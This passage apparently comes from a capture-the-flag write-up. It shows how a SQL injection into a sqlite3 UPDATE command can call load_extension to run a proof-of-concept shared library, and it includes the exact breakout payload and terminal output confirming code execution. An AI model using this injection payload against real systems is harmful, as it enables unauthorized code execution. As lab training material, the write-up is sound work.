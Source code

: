 ```

oxdf@hacky$ sqlite3 does_not_exist.sql "select 1";
1

```

The same way, I can call `load_extension`:

```

oxdf@hacky$ sqlite3 does_not_exist.sql "select load_extension('./poc')";
uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),115(netdev),123(nopasswdlogin),141(docker),999(vboxsf)

```

The fact that I see `id` output shows it ran my extension.

#### Injection

The program runs the following:

```

/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line \'UPDATE accounts_customuser SET is_active=1 WHERE username=\"%s\";\'

```

It is putting my input in double quote marks. So to inject out of that, I need send something like:

```

",load_extension('./poc');-- -

```

That would make the SQL:

```

UPDATE accounts_customuser SET is_active=1 WHERE username="",load_extension('./poc');-- -"

```

On my machine, I’ll try that:

```

oxdf@hacky$ sqlite3 does_not_exist.sql 'select "1",load_extension("./poc");-- -aaaaasdasda';
uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),115(netdev),123(nopasswdlogin),141(docker),999(vboxsf)
1|

```

This is actually cool because it’s showing how the extension is loaded, and it returns nothing, which becomes the empty column in the output. The junk after the `-- -` is just to make sure the comment works.
